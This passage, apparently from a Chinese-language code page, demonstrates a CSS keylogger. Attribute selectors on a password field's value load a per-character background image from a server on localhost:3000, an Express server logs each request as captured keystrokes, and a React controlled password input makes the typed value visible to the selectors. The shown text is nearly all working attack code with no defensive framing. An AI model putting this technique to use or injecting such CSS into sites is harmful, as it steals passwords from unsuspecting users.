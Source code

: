 > input[type="password"][value$="n"] { background-image: url("http://localhost:3000/n"); }
> input[type="password"][value$="o"] { background-image: url("http://localhost:3000/o"); }
> input[type="password"][value$="p"] { background-image: url("http://localhost:3000/p"); }
> input[type="password"][value$="q"] { background-image: url("http://localhost:3000/q"); }
> input[type="password"][value$="r"] { background-image: url("http://localhost:3000/r"); }
> input[type="password"][value$="s"] { background-image: url("http://localhost:3000/s"); }
> input[type="password"][value$="t"] { background-image: url("http://localhost:3000/t"); }
> input[type="password"][value$="u"] { background-image: url("http://localhost:3000/u"); }
> input[type="password"][value$="v"] { background-image: url("http://localhost:3000/v"); }
> input[type="password"][value$="w"] { background-image: url("http://localhost:3000/w"); }
> input[type="password"][value$="x"] { background-image: url("http://localhost:3000/x"); }
> input[type="password"][value$="y"] { background-image: url("http://localhost:3000/y"); }
> input[type="password"][value$="z"] { background-image: url("http://localhost:3000/z"); }
> input[type="password"][value$="{"] { background-image: url("http://localhost:3000/%7B"); }
> input[type="password"][value$="|"] { background-image: url("http://localhost:3000/%7C"); }
> input[type="password"][value$="\\}"] { background-image: url("http://localhost:3000/%7D"); }
> input[type="password"][value$="~"] { background-image: url("http://localhost:3000/~"); }
> input[type="password"][value$=""] { background-image: url("http://localhost:3000/%7F"); }
> ```
>
> #### 服务器端express 便可以取截取到你传输的数据
>
> ```js
> const express = require("express")
> const app = express()
> app.get("/:key", (req, res) => {
>   process.stdout.write(req.params.key)
>   return res.sendStatus(400)
> })
> app.listen(3000, () => console.log("> Ready to keylog at localhost:3000"))
> ```
>
> #### React代码
>
> ```jsx
> <script src="https://cdn.bootcdn.net/ajax/libs/react/16.13.1/umd/react.production.min.js"></script>
> <script src="https://cdn.bootcdn.net/ajax/libs/react-dom/16.13.1/umd/react-dom.production.min.js"></script>
> <script src="https://cdn.bootcdn.net/ajax/libs/babel-standalone/7.0.0-beta.3/babel.min.js"></script>
> 
> <script type="text/babel">
>   const Ipt =  React.createElement(()=>{
>     const {  useState } = window.React;
>     const [state,setState] = useState({val:"123"})
>     const setInput = (e) => {
>       setState({
>         val:e.target.value
>       })
>     }
>     return <input type="password" onChange={setInput} value={state.val}></input>
>   })
>   ReactDOM.render(Ipt,document.getElementById('app'))
> </script>
> ```
